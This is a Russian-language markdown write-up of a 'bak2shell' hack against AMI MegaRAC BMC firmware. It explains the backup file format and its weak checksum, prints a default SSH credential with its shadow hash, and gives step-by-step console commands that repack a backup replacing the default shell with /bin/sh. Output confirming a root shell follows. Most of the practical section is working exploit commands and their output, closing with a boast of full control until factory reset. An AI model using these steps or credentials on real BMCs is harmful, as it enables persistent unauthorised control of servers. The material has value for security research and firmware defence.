


# bak2shell hack
Описание способа получить рутовый шелл через абуз восстановления из бэкапа

Проверено на megarac с такими код бейзами:
```
FW_VERSION=2.02.76714
FW_DATE=Aug 8 2022
FW_BUILDTIME=14:45:58 CST
FW_DESC=RR10 AST2500 KERN3 BUILD 2
FW_PRODUCTID=1
FW_RELEASEID=RR9
FW_CODEBASEVERSION=3.X
```

```
FW_VERSION=3.24.4421
FW_DATE=Dec 19 2016
FW_BUILDTIME=16:07:05 CST
FW_DESC=RR8 AST2400 HWENC BUILD 2
FW_PRODUCTID=1
```

## Theory
В web ui через `Maintenance` => `Backup/Restore Configuration` можно выгрузить/залить бэкап, но в сути своей это не просто "настройки", а дамп списка файлов которые подходят под определённую тематику. После файлов идёт некий хэш. Структура выглядит примерно так

```txt title="config.bak"
$$$Version=1$                       <- version. known only 1
$$$CheckSumKeyIndex=1$              <- key index used as suffix

[$$$/conf/ncml.conf]                <- file name (repeat section)
$$$DataLength=1873$                 <- file len
                                    <- content
[web]
active_sessions=128
MinSessionInactivityTimeout=300
secure_port=443
MaxSessionInactivityTimeout=1800
interface_name=bond0.0

<repeat>

23b554c227bd729fc0a6cbabba09fa96c5f229f5    <- SHA1 hash of content + key
```

Вся прелесть, что код который занимается восстановлением из бэкапа не содержит никаких защит и проверок кроме как хэшем. То есть достаточно хакнуть рассчёт хэша и можно в прошивку заливать любые файлы. В одной из борд была найдена ошибка - в хэш попадал только первый байт, а все остальные вставали в `0x00`. 

Препарируя прошивку можно найти интересный файл `/conf/default_sh` в котором описывается шелл в который попадёт каждый юзер подключившийся по ssh. У каждого вендора тут своя обёртка, но обычно прямого доступа никто не даёт в систему.
```txt title="/conf/default_sh"
[defaultshell]
default_shell="/usr/local/bin/solssh"
```

Далее что касается логин/пасса от ssh. Всё просто достаточно, есть `/conf/shadow` из которого интересует первая строчка и результаты поиска по ней в гугле.
```
sysadmin:$1$A17c6z5w$5OsdHjBn1pjvN6xXKDckq0:14386:0:99999:7:::
aka
sysadmin/superuser
```

Если без хака туда постучать, то ничего пролезного там не увидеть:
```console
$ ssh -oHostKeyAlgorithms=+ssh-dss sysadmin@192.168.1.149
sysadmin@192.168.1.149's password: superuser
Executing [-/usr/local/bin/smashclp]

  No Access Privilege  ! Exiting...!
Connection to 192.168.1.149 closed.
```

## Practice
Дла разбора/генерации бэкап файлов использовал самописный комбайн [uefi-mod-tools](../../../tools/index.md#uefi-mod-tools).

### Получение бэкапа и распаковка
Идём в web ui и снимаем бэкап с одной секцией (к примеру `services`) 

Анпачим его в файлы и манифест. Если хэш в конце не сойдётся, тула даст знать:
```console
$ uefi-mod-tools ami bmc-backup-extract -i ./config.bak -o ./config
[07:42:30 INF] Reading data from file ./config.bak
[07:42:30 INF] Calculated sign and in file is same
[07:42:30 INF] Saving /conf/backup_cfg_list-AMI.ini
[07:42:30 INF] Save output to ./config/conf/backup_cfg_list-AMI.ini
[07:42:30 INF] Saving /conf/ncml.conf
[07:42:30 INF] Save output to ./config/conf/ncml.conf
[07:42:30 INF] Save output to ./config/backup-info.json
$ cd ./config
$ tree
.
├── backup-info.json
└── conf
    ├── backup_cfg_list-AMI.ini
    └── ncml.conf

2 directories, 3 file
$ cat backup-info.json
{
  "version": 1,
  "checkSumKeyIndex": 1,
  "isBuggedSha1": false,
  "files": [
    "/conf/backup_cfg_list-AMI.ini",
    "/conf/ncml.conf"
  ]
}
```

### Патчим и заливаем

Добавляем `/conf/default_sh` и убираем остальные:
```console
$ cat backup-info.json
{
  "version": 1,
  "checkSumKeyIndex": 1,
  "isBuggedSha1": false,
  "files": [
    "/conf/default_sh"
  ]
}
$ cat conf/default_sh
[defaultshell]
default_shell="/bin/sh"
```

Пакуем в бэкап:
```console
$ cd ../
$ uefi-mod-tools ami bmc-backup-pack -i ./config -o ./config_sh.bak
[07:49:20 INF] Reading data from file ./config/backup-info.json
[07:49:20 INF] Reading /conf/default_sh
[07:49:20 INF] Reading data from file ./config/conf/default_sh
[07:49:20 INF] Appending /conf/default_sh to bak
[07:49:20 INF] Save output to ./config_sh.bak
$ cat config_sh.bak
$$$Version=1$
$$$CheckSumKeyIndex=1$

[$$$/conf/default_sh]
$$$DataLength=39$
[defaultshell]
default_shell="/bin/sh"
fad2a5b099f2c9d7f99e04c2e4324399d535fbc2
```

Заливаем в BMC:



### Проверяем доступ
```console
$ ssh -oHostKeyAlgorithms=+ssh-dss sysadmin@192.168.1.212
sysadmin@192.168.1.149's password: superuser
Executing [-/bin/sh]


BusyBox v1.13.2 (2016-12-19 15:55:17 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux  2.6.28.10-ami #1 Mon Dec 19 15:59:10 CST 2016 armv5tejl unknown
# dmesg | head -10
<5>Linux version 2.6.28.10-ami (root@liwang-rd450x) (gcc version 4.5.1 (Sourcery G++ Lite 2010.09-50) ) #1 Mon Dec 19 15:59:10 CST 2016
<4>CPU: ARM926EJ-S [41069265] revision 5 (ARMv5TEJ), cr=00053177
<4>CPU: VIVT data cache, VIVT instruction cache
<4>Machine: AST2400EVB
<4>Memory policy: ECC disabled, Data cache writeback
<7>On node 0 totalpages: 53760
<7>free_area_init_node: node 0, pgdat c03d32c8, node_mem_map c03f7000
<7>  Normal zone: 420 pages used for memmap
<7>  Normal zone: 0 pages reserved
<7>  Normal zone: 53340 pages, LIFO batch:15
```

### ???

### Profit
Вы в системе и можете делать что угодно до factory reset'а BMC
